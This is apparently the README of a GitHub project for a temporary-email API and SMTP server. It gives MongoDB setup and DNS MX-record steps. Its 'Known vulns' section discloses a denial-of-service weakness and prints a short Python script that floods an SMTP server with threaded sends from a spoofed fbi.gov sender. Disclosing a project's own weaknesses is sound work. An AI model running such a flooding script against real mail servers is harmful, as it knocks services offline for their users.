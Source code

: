 <div id="top"></div>
<p align="center">
  <img src="https://img.shields.io/github/contributors/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/forks/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/stars/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/issues/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/license/femboy-party/tempmail-api.svg?style=for-the-badge"/>
</p>
  
---------------------------------------
  
<br/>
<div align="center">
  <a href="https://github.com/femboy-party/tempmail-api">
    <img src="https://i.imgur.com/fJYAFil.png" alt="Logo" width="120" height="120">
  </a>
  
  <h2 align="center">Tempmail API/Server</h3>

  <p align="center">
    Tempmail API aswell as a SMTP server.
    <br />
    <br />
    <a href="http://tempmail.pink">Website</a>
    ·
    <a href="https://github.com/femboy-party/tempmail-api/issues">Report Bug</a>
    ·
    <a href="https://github.com/femboy-party/tempmail-api/issues">Request Feature</a>
  </p>
</div>
  
---------------------------------------

### Setup
* Firstly create a mongodb account, and proceed to create a new project.
* Now create a new database.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454657812049990/unknown.png">
* Now goto the database overview and goto the collections tab.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454911882035201/unknown.png">
* Now create a new database / collection.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901455049618751498/unknown.png">
* Now edit the following files and put your connection url inside.
```
API/database.py
SMTP/database.py
```
* All you have to do now is run main.py on your vps.

---------------------------------------

### Add domains
1. Open your domain management
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515103249473546/unknown.png">
2. Go to advanced dns
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515754641653760/unknown.png">
3. Scroll down until you see mail settings
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515920639651850/unknown.png">
4. Select MXE Record
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516078861369354/unknown.png">
5. Put <your vps ip> as the value
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516266401296384/unknown.png">
6. Save and done!

---------------------------------------

### Known vulns
* SMTP Connections, Spamming smtp connections and attempting to send an email will result in the api not responding until you stop trying to connect/send.
  ```py
  import smtplib
  import threading
  
  def send():
      message = """From: dropout <dropout@fbi.gov>
      To: admin <user@domain.com>
      Subject: SMTP Vuln

      Naughty, Naughty vuln
      """
      try:
          smtp = smtplib.SMTP("stmp.server.com")
          smtp.sendmail("dropout@fbi.gov", "user@domain.com", message)         
      except Exception:
          pass
  
  if __name__ == "__main__":
      while True:
          threading.Thread(target=send).start()
  ```

---------------------------------------

### Contact
View my contact information on my [website](https://dropout.black/)
